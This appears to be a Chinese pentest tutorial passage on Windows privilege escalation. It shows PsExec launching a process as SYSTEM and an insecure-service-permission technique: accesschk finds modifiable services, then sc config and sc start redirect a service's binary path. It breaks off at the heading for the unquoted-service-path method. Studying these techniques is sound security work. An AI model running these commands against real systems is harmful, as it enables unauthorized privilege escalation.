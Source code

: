 微软官方工具包： [https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools](https://docs.microsoft.com/zh-cn/sysinternals/downloads/pstools)

::: tip 适用版本

- [x] Windows2003 
- [x] Windows2008

:::

包含工具目录：

![](/images/image20210518104504.png)

```shell
psexec.exe -accepteula -s -i -d notepad.exe
```

在 windows2008 中：

![](/images/image20210518104544.png)

![](/images/image20210518104551.png)

## 不安全的服务权限配置

### 原理

及时正确引用了服务器路径，也可能存在其他漏洞。由于管理配置错误，用户可能对服务拥有过多权限，例如，可以直接修改它导致重定向执行文件关键在于利用当前用户可以操作的服务。

### 提权

accesschk.exe 是微软官方文件，可以去官网直接下载：[https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

```shell
accesschk.exe -uwcqv "administrator" * #检测用户administrator可以操作的服务项，用户名可以替换成user
sc config "NewServiceName" binpath="C:\test.exe" #将服务执行的路径替换成提权文件
sc start "NewServiceName" #重新开启服务
```

::: warning 注意

如果出现<font color="red">Invalid account name:user</font>，此提权方法则无效

:::

## 不带引号服务路径

### 原理

当 Windows 服务运行时，会发生以下两种情况之一。如果给出了可执行文件，并且引用了完整路径，则系统会按照字面解释它并执行，但是，如果服务的二进制路径未包含在引号中，则操作系统会执行找到空格分隔的服务路径的第一个实例。

### 提权
